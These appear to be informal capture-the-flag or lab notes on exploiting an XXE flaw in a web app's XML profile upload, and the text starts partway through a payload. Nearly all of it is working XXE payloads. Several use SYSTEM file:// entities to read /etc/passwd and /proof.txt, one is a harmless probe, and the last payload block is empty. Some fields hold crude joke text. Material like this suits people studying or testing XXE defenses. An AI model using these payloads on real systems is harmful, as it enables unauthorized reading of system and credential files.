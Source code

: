 ```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
	<id>1</id>
	<name>hahaha</name>
	<proffesion>hahaha</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
we are able to grab `/etc/passwd`
![[Pasted image 20241209175551.png]]
now lets try to grab the `proof.txt` from root

`testing4_proof.xml`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///proof.txt">
]>
<response>
	<id>1</id>
	<name>hahaha</name>
	<proffesion>hahaha</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```

![[Pasted image 20241209175829.png]]
###### Payload 1- Vulnerable to XXE
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
  <id>1</id>
  <name>&xxe;</name>
  <proffesion>&xxe;</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
###### Payload 2 - /etc/passwd
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
  <id>1</id>
  <name>ligma</name>
  <proffesion>nutsack</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
###### Payload 3- Proof.txt
```xml
```